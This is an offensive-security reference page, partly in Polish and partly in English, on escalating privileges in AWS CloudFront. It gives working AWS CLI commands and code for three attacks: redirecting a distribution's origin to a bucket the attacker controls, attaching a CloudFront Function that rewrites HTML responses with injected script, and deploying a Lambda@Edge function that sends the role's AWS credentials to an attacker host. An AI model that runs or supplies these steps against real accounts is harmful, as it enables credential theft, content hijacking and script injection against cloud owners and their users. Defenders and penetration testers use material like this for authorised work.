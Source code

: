 # AWS - CloudFront Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFront

### `cloudfront:UpdateDistribution` & `cloudfront:GetDistributionConfig`

Atakujący, który posiada uprawnienia `cloudfront:UpdateDistribution` i `cloudfront:GetDistributionConfig`, może zmodyfikować konfigurację dystrybucji CloudFront. Nie potrzebuje uprawnień do docelowego bucketu S3, chociaż atak jest łatwiejszy, jeśli ten bucket ma permisywną politykę pozwalającą na dostęp z service principal cloudfront.amazonaws.com.

Atakujący zmienia konfigurację origin dystrybucji, aby wskazywała na inny bucket S3 lub na serwer kontrolowany przez atakującego. Najpierw pobiera aktualną konfigurację dystrybucji:
```bash
aws cloudfront get-distribution-config --id <distribution-id> | jq '.DistributionConfig' > current-config.json
```
Następnie edytują current-config.json, aby wskazać origin na nowy zasób — na przykład inny S3 bucket:
```bash
...
"Origins": {
"Quantity": 1,
"Items": [
{
"Id": "<origin-id>",
"DomainName": "<new-bucket>.s3.us-east-1.amazonaws.com",
"OriginPath": "",
"CustomHeaders": {
"Quantity": 0
},
"S3OriginConfig": {
"OriginAccessIdentity": "",
"OriginReadTimeout": 30
},
"ConnectionAttempts": 3,
"ConnectionTimeout": 10,
"OriginShield": {
"Enabled": false
},
"OriginAccessControlId": "E30N32Y4IBZ971"
}
]
},
...
```
Na koniec zastosuj zmodyfikowaną konfigurację (musisz podać bieżący ETag podczas aktualizacji):
```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
--id <distribution-id> \
--distribution-config file://current-config.json \
--if-match $CURRENT_ETAG
```

### `cloudfront:UpdateFunction`, `cloudfront:PublishFunction`, `cloudfront:GetFunction`, `cloudfront:CreateFunction` and `cloudfront:AssociateFunction`
An attacker needs the permissions cloudfront:UpdateFunction, cloudfront:PublishFunction, cloudfront:GetFunction, cloudfront:CreateFunction and cloudfront:AssociateFunction to manipulate or create CloudFront functions.

The attacker creates a malicious CloudFront Function that injects JavaScript into HTML responses:

```bash
function handler(event) {
var request = event.request;
var response = event.response;
// Create a new body with malicious JavaScript
var maliciousBody = `
<!DOCTYPE html>
<html>
<head>
<title>Compromised Page</title>
</head>
<body>
<h1>Original Content</h1>
<p>This page has been modified by CloudFront Functions</p>
<script>
// Malicious JavaScript
alert('CloudFront Function Code Injection Successful!');
</script>
</body>
</html>
`;
// Replace the body entirely
response.body = { encoding: "text", data: maliciousBody };
// Update headers
response.headers["content-type"] = { value: "text/html; charset=utf-8" };
response.headers["content-length"] = {
value: maliciousBody.length.toString(),
};
response.headers["x-cloudfront-function"] = { value: "malicious-injection" };
return response;
}
```

Commands to create, publish and attach the function:

```bash
# Utwórz złośliwą funkcję w CloudFront
aws cloudfront create-function --name malicious-function --function-config '{
"Comment": "Malicious CloudFront Function for Code Injection",
"Runtime": "cloudfront-js-1.0"
}' --function-code fileb://malicious-function.js

# Pobierz ETag funkcji w etapie DEVELOPMENT
aws cloudfront describe-function --name malicious-function --stage DEVELOPMENT --query 'ETag' --output text

# Opublikuj funkcję do etapu LIVE
aws cloudfront publish-function --name malicious-function --if-match <etag>
```

Add the function to the distribution configuration (FunctionAssociations):

```bash
"FunctionAssociations": {
"Quantity": 1,
"Items": [
{
"FunctionARN": "arn:aws:cloudfront::<account-id>:function/malicious-function",
"EventType": "viewer-response"
}
]
}
```

Finally update the distribution configuration (remember to supply the current ETag):

```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution --id <distribution-id> --distribution-config file://current-config.json --if-match $CURRENT_ETAG
```

### `lambda:CreateFunction`, `lambda:UpdateFunctionCode`, `lambda:PublishVersion`, `iam:PassRole` & `cloudfront:UpdateDistribution`

An attacker needs the lambda:CreateFunction, lambda:UpdateFunctionCode, lambda:PublishVersion, iam:PassRole and cloudfront:UpdateDistribution permissions to create and associate malicious Lambda@Edge functions. A role that can be assumed by the lambda.amazonaws.com and edgelambda.amazonaws.com service principals is also required.

The attacker creates a malicious Lambda@Edge function that steals the IAM role credentials:

```bash
// malicious-lambda-edge.js
exports.handler = async (event) => {
  // Pobierz poświadczenia roli
  const credentials = {
    accessKeyId: process.env.AWS_ACCESS_KEY_ID,
    secretAccessKey: process.env.AWS_SECRET_ACCESS_KEY,
    sessionToken: process.env.AWS_SESSION_TOKEN,
  };
  // Wyślij poświadczenia na serwer atakującego
  try {
    await fetch("https://<attacker-ip>/steal-credentials", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(credentials)
    });
  } catch (error) {
    console.error("Błąd wysyłania poświadczeń:", error);
  }
  if (event.Records && event.Records[0] && event.Records[0].cf) {
    // Zmodyfikuj nagłówki odpowiedzi
    const response = event.Records[0].cf.response;
    response.headers["x-credential-theft"] = [
      {
        key: "X-Credential-Theft",
        value: "Successful",
      },
    ];
    return response;
  }
  return {
    statusCode: 200,
    body: JSON.stringify({ message: "Poświadczenia skradzione" })
  };
};
```

```bash
# Spakuj funkcję Lambda@Edge
zip malicious-lambda-edge.zip malicious-lambda-edge.js

# Utwórz funkcję Lambda@Edge z uprzywilejowaną rolą
aws lambda create-function \
--function-name malicious-lambda-edge \
--runtime nodejs18.x \
--role <privileged-role-arn> \
--handler malicious-lambda-edge.handler \
--zip-file fileb://malicious-lambda-edge.zip \
--region <region>

# Opublikuj wersję funkcji
aws lambda publish-version --function-name malicious-lambda-edge --region <region>
```

Then the attacker updates the CloudFront distribution configuration to reference the published Lambda@Edge version:

```bash
"LambdaFunctionAssociations": {
"Quantity": 1,
"Items": [
{
"LambdaFunctionARN": "arn:aws:lambda:us-east-1:<account-id>:function:malicious-lambda-edge:1",
"EventType": "viewer-response",
"IncludeBody": false
}
]
}
```

```bash
# Zastosuj zaktualizowaną konfigurację dystrybucji (należy użyć aktualnego ETag)
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
--id <distribution-id> \
--distribution-config file://current-config.json \
--if-match $CURRENT_ETAG

# Wywołaj funkcję, wysyłając żądanie do dystrybucji
curl -v https://<distribution-domain>.cloudfront.net/
```

{{#include ../../../../banners/hacktricks-training.md}}
